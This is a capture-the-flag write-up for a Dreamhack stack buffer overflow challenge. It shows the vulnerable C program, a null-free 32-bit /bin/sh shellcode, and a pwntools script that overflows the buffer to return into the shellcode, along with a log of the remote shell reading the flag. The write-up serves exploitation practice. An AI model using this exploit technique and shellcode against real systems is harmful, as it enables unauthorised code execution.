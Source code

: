 ### Overview
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}

```

Look at the challenge, we can see that this is a common return2shellcode pwn challenge!

I checked the file and it's stacl is executable, so we can return to `buf` which is execute our shellcode.

Now let's create a 32 bit shellcode to exploit this challenge.

I know that we must write shellcode such that when it compile to opcode, it would not have null byte.

The following shell code is satify that, i think, but when i run it remotely, it doesnt work properly:

```
xor eax, eax
push eax
push 0x68732f6e
push 0x69622f2f
mov ebx, esp
xor ecx, ecx 
xor edx, edx 
xor eax, eax
add eax, 0x0b
int 0x80
```
I dont know why???
But I tried another way and it worked!!

### exploit
```
xor eax, eax
push eax
push 0x68732f6e
push 0x69622f2f
mov ebx, esp
xor ecx, ecx 
xor edx, edx 
mov al, 0x8
add al, 0x3
int 0x80
```
This is the final shellcode, assemble it to hex and get flag:

```py
from pwn import *
p = remote('host3.dreamhack.games', 16708)
shellcode = b'\x31\xC0\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x31\xC9\x31\xD2\xB0\x08\x04\x03\xCD\x80'

p.recvuntil(b'(')
buf = int(p.recv(10), 16)
print(f"buf: {hex(buf)}")
p.recvuntil(b')')
payload = shellcode.ljust(132, b'A') + p32(buf)
p.send(payload)
p.interactive()
```
Flag

```
$ python3 exploit.py
[+] Opening connection to host3.dreamhack.games on port 16708: Done
buf: 0xffba36a8
[*] Switching to interactive mode

$ ls
$ ls
basic_exploitation_000
flag
run.sh
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to host3.dreamhack.games port 16708
```